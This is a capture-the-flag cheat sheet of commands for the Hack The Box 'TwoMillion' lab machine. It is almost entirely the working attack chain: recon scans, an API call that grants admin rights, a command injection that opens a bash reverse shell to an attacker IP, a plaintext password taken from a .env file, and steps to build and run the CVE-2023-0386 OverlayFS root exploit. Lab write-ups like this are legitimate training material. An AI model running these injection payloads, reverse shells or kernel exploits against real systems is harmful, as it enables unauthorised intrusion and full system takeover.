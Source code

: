 # 🎯 HTB: TwoMillion – Command Notes

## 🔍 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.10.11
nmap -p 22,80 -sCV 10.10.10.11
```

### Host File Entry
```bash
echo "10.10.10.11 2million.htb" | sudo tee -a /etc/hosts
```

### [FFUF – Subdomain Enumeration](HTTP)
```bash
ffuf -u http://10.10.10.11 -H "Host: FUZZ.2million.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -mc all -ac
```

### Feroxbuster – Directory Brute Force
```bash
feroxbuster -u http://2million.htb
```

---

## 🎟️ Invite Code Challenge

### ROT13 Decode (CLI)
```bash
curl -s -X POST http://2million.htb/api/v1/invite/how/to/generate | jq -r '.data.data' | tr 'a-zA-Z' 'n-za-mN-ZA-M'
```

### Generate Invite Code
```bash
curl -X POST http://2million.htb/api/v1/invite/generate -s | jq .data.code | xargs echo | base64 -d
```

---

## 🔐 Login & API Enumeration

### Get API Description
```bash
curl -s http://2million.htb/api/v1 | jq .
```

---

## 👮 Admin Privilege Escalation via API

### Gain Admin Privs
```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update \
-H "Content-Type: application/json" \
-d '{"email":"<your_email>", "is_admin":1}' \
-b cookies.txt
```

### Confirm Admin
```bash
curl -s http://2million.htb/api/v1/admin/auth -b cookies.txt
```

---

## 💥 Command Injection (Admin VPN API)

### Basic Test
```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
-H "Content-Type: application/json" \
-d '{"username":"test; id #"}' -b cookies.txt
```

### Reverse Shell
```bash
# Listener
nc -lnvp 443

# Trigger
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
-H "Content-Type: application/json" \
-d '{"username":"; bash -c \"bash -i >& /dev/tcp/<your_ip>/443 0>&1\" #"}' \
-b cookies.txt
```

---

## 🧑‍💻 Shell as `admin`

### Credential in .env
```bash
cat /var/www/html/.env
# admin : SuperDuperPass123
```

### [SSH](SSH) / su as admin
```bash
su - admin
# or
sshpass -p 'SuperDuperPass123' ssh admin@2million.htb
```

---

## 🧑‍🔬 Privilege Escalation to root

### Kernel Info
```bash
uname -a
cat /etc/lsb-release
```

### Vulnerability: CVE-2023-0386 (OverlayFS)
Exploit repo: https://github.com/xkaneiki/CVE-2023-0386

### Steps
```bash
# Upload & unzip
scp CVE-2023-0386-main.zip admin@2million.htb:/tmp/
unzip CVE-2023-0386-main.zip && cd CVE-2023-0386-main

# Build
make all

# Start fuse script in terminal 1
./fuse ./ovlcap/lower ./gc

# Run exploit in terminal 2
./exp
```

If successful:
```bash
whoami
# root
```

---

## 📦 Beyond Root – Decode `thank_you.json`

### Decode Steps (CyberChef or CLI)
1. URL Decode
2. From Hex
3. From Base64
4. XOR with key: `HackTheBox`